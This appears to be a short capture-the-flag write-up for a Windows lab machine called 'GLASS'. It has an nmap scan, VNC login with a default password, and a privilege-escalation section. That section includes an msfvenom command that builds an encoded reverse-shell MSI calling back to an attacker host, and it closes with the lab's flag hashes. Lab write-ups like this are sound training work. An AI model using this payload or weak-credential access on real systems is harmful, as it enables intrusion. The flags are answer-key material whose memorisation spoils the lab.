










# GLASS



## NMAP SCAN

```text
PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5800/tcp  open  vnc-http      syn-ack ttl 127 TightVNC (user: glass; VNC TCP port: 5900)
| http-methods: 
|_  Supported Methods: GET
|_http-title: TightVNC desktop [glass]
5900/tcp  open  vnc           syn-ack ttl 127 VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|     VNC Authentication (2)
|     Tight (16)
|   Tight auth subtypes: 
|_    STDV VNCAUTH_ (2)
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

## VNC ENUMERATION



```text
<blank>:password
```

### CONNECTING

```text
vncviewer 172.31.1.25:5900
```





## PRIVESC

### USING METASPLOIT

* AFTER UPLOAD A METERPRETER REVERSE SHELL RUN SUGGESTER







### WITHOUT METASPLOIT

#### WINPEAS



* [https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path](https://dmcxblue.gitbook.io/red-team-notes/privesc/unquoted-service-path)

  ```text
  msfvenom --platform windows --arch x64 --payload windows/x64/shell_reverse_tcp LHOST=10.10.0.63 LPORT=5555 --encoder x64/xor --iterations 9 --format msi --out alwe.msi

  ```





## FLAGS

### USER

```text
6c872f27e7848097568abb0ca181e988
```

### ROOT

```text
39065a2f433f9b7d3fbbcd6e4fbd0a8e
```


